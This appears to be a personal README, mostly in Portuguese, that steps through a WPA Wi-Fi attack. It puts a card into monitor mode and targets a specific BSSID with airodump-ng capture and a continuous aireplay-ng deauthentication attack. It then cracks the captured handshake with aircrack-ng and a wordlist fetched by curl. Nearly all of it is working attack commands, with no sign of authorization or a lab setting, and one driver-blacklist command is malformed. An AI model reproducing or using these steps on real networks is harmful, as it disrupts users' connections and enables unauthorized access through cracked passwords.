 git clone https://github.com/aircrack-ng/rtl8188eus

cd rtl8188eus

sudo -i

echo "blacklist r8188eu" to  "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu

iwconfig

---

sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor

sudo ifconfig wlan0 up
iwconfig
---
- pegando o bssid

sudo airodump-ng wlan0

- aqui deve ser pego o bssid e o ch (channel)

---
- verificando apenas a rede

sudo airodump-ng wlan0 -d 8C:44:4F:6E:85:02

---
- no primeiro terimnal

sudo airodump-ng -w hack1 -c 1 -d 8C:44:4F:6E:85:02
  - ou
sudo airodump-ng -w hack1 -c 1 --bssid 8C:44:4F:6E:85:02

- -w é o nome do arquivo
- -c é o ch (channel)
- -d bssid

- no segundo terminal

sudo aireplay-ng --deauth 0 -a 8C:44:4F:6E:85:02 wlan0

- entao volte no primero terminal e la deve ter adicionado algo no fim da primeira linha
- assim podemos parar o segundo terminal (Ctrl + C)
- caso nao apareca, tente conectar na rede
- assim no primeiro terminal, no fim da linha, deve ter algo como <WPA handshake> bssid>

---
- agora opdemos usar o wireshark no nosso arquivo hack1.cap
wireshark hack1.cap
---

- agora colocaremos o wlan0 em modo managed
sudo airmon-ng stop wlan0
  - ou
sudo iwconfig wlan mode managed

---

aircrack-ng hack1.cap -w /home/kali/Descktop/wordlist.txt


---

- https://www.youtube.com/watch?v=WfYxrLaqlN8
- https://www.youtube.com/watch?v=tYnjMiTTdms

---

curl "https://github.com/santosfabin/WP2/blob/main/README.md" | sed 's/[^a-zA-Z]/ /g' | tr 'A-Z ' 'a-z\n' | grep '[a-z]' | sort -u > /tmp/wordlist.txt

---

- para descompactar um arquivo .gz use
gunzip file.txt.gz
